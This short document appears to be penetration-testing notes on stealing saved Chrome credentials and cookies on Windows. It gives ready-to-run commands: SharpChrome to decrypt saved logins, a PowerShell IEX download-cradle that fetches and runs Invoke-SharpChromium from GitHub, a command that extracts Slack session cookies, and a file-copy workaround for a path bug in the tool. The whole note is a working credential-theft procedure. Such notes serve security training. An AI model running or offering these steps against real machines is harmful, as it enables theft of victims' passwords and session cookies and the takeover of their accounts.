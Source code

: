 # Retrieving Saved Credentials from Chrome windows

* Users often store credentials in their browsers for applications that they frequently visit.
  * We can use a tool such as [SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins from Google Chrome.

```powershell-session
.\SharpChrome.exe logins /unprotect
```

### Extract Cookies

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
```

```powershell-session
Invoke-SharpChromium -Command "cookies slack.com"
```

* We got an error because the cookie file path that contains the database is hardcoded in [SharpChromium](https://github.com/djhohnstein/SharpChromium/blob/master/ChromiumCredentialManager.cs#L47), and the current version of Chrome uses a different location.

```powershell-session
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

```powershell-session
Invoke-SharpChromium -Command "cookies slack.com"
```
